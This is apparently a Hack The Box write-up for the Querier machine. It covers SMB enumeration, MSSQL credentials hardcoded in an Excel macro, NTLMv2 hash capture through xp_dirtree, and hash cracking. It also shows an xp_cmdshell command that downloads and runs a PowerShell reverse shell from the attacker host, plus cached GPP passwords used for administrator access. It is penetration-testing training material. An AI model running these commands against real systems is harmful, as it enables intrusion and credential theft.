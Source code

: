 **Skills Required**
● Enumeration
**Skills Learned**
● Excel macros
● PowerView

Port 445(smb)
Port 5985(winrm)
port 1433(mssql)

We began using crackmapexec to gather information
``` bash
❯ crackmapexec smb 10.10.10.125
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
```

Now We'll try to list shared resources (smb) with smbmap
``` bash
❯ smbmap -H 10.10.10.125 -u 'null'
[+] IP: 10.10.10.125:445	Name: HTB.LOCAL           	Status: Guest session   	
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	Reports                                           	READ ONLY	
```

There are some resources, and We have read-only permission in the Reports resource

``` bash
smbmap -H 10.10.10.125 -u 'null' -r Reports
```

There is a .xlsm file, 
``` bash
smbmap -H 10.10.10.125 -u 'null' --download Reports/.xlsm
```

This file has no content; it only has a macro. With the olevba2 tool, we can analyze this macro.
``` bash
olevba2 -c .xlsm

```

The macro connects to a database and contains the credentials for this connection, which is a bad practice
``` bash
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
```

WE can validate these credentials with crackmapexec
``` bash
❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d 'WORKGROUP.local'

SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP.local) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP.local\reporting:PcwTWTHRwryjc$c6 
```

These credentials are valid not for a domain user but for a workgroup. This means the user is only valid on the local machine.

We could try to connect with these credentials on port 1433(mssql) via the mssqlclient.py tool

``` bash
mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
SQL> xp_dirtree "\\10.10.14.5\capturehash\"

#We can try capture NTLMv2 hash authentications with smbserver

smbserver.py capturehash $(pwd) -smb2support
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:244cbeb342b9acd1083e39489ed3203e:01010000000000000011aebca3f0d901b247bfc9d72488830000000001001000540064004c007400750063006200520003001000540064004c0074007500630062005200020010004700790041006500530070004b006500040010004700790041006500530070004b006500070008000011aebca3f0d9010600040002000000080030003000000000000000000000000030000043b8b0b283d7cb6a19b5968fcabe6938ee7f955d3485e8bb55967f0a5cf692000a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003500000000000000000000000000
```

Now, we try to crack the hash with john

``` bash
john --wordlist=rockyou hash
corporate568     (mssql-svc)
```

Now we have new credentials
We validate theme again with crackmapexec
``` bash
crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d 'WORKGROUP.local'
```

It's valid, so We connect again to the mssql server

``` bash
mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth

#We can try to get a reverse shell by injecting commands with xp_cmdshell
#Eneable xp_cmdshell
SQL> sp_configure "show advanced options", 1
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
SQL> reconfigure
SQL> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.5/invokepowershelltcp.ps1\")"

#Use nishang to use invokepowershelltcp.ps1
sudo python -m http.server 80
rlwrap nc -nlvp 1234

```

This way we gain access to the victim machine, now we need to escalate privileges
``` bash
# enumerate the system with powerup.ps1
PS C:\> whoami /priv > SeImpersonatePrivilege - 
PS C:\> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.5/powerup.ps1")
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files

# on my machine
sudo python -m http.server 80
```

With this tool I found the Administrator credentials, the tool checks for cached GPP Files.
We check again with crackmapexec using these credentials

``` bash
❯ crackmapexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d 'WORKGROUP.local'
HTTP        10.10.10.125    5985   QUERIER          [*] http://10.10.10.125:5985/wsman
HTTP        10.10.10.125    5985   QUERIER          [+] WORKGROUP.local\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

It's Pwn3d, so we can connect via Evil-winrm to the machine as ADministrator
``` bash

❯ evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd \Users\administrator\desktop
*Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
112c19c45bd2bdd833ff676814faccba
```

user flag > a66e4be59902f3cd1610bde31d1a23e6
root.txt > 112c19c45bd2bdd833ff676814faccba